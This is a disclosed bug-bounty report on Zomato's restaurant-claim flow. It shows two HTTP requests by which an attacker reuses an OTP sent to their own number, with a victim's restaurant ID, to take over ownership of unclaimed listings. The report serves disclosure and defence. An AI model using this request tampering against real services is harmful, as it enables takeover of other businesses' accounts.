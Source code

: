 # Claiming the listing of a non-delivery restaurant through OTP manipulation

## Report Details
- **Report ID**: 1330529
- **URL**: https://hackerone.com/reports/1330529
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-09-05T07:32:05.745Z
- **Disclosed**: 2022-02-22T08:51:15.229Z

## Reporter
- **Username**: ashoka_rao
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
**Summary:** Am able to claim any restaurant which is not claimed before.

**Description:** An endpoint `POST /restaurant-onboard-diy/v2/send-auto-claim-otp HTTP/2` sends OTP to the restaurant mobile no.

##Request (Request:1) is - 
```
POST /restaurant-onboard-diy/v2/send-auto-claim-otp HTTP/2
Host: www.zomato.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Content-Length: 58
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Accept: application/json, text/plain, */*
X-Zomato-Csrft: XXXXXXXXXXXXXXXXXXXXXXX
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: https://www.zomato.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.zomato.com/partner_with_us/ownership
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"number":"XXXXXXXXXX","isdCode":"+91","resId":"XXXXXXXXXX"}
```
which responses -
```
{"status":"success","message":"OTP SENT","requestId":XXXXXXX,"code":2}
```

###Here Attacker gains OTP on his own mobile no by changing the `number` & `resId` to his own restaurant.

By using the following request (Request:2) attacker is able to map his e-mail Id as `Owner / Manager` to Victim restaurant.
##Request:2
```
POST /restaurant-onboard-diy/v2/verify-auto-claim-otp HTTP/2
Host: www.zomato.com
Cookie: XXXXXXXXXXXXXXXX
Content-Length: 68
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Accept: application/json, text/plain, */*
X-Zomato-Csrft: XXXXXXXXXXXXXXXXXXXXX
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: https://www.zomato.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.zomato.com/partner_with_us/ownership
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"verificationCode":XXX,"requestId":"XXXXXXXX","resId":"XXXXXXXXX"}
```

###Here by changing the `verificationCode`  -  (Otp received on Attacker Mobile in response of Request :1 )& `requestId`  (Response of request:1) and `resId` to Victim Restaurant. Request:2 maps e-mail id of Attacker to Victim restaurant.

**Prerequisite - Attacker should have a restaurant page, mapped Mobile No With Email Id.**

**Note : -  If any restaurant is not mapped owner / manager then claimed restaurant can be claimed **

## Impact

Claim a restaurant.

## Attachments
No attachments
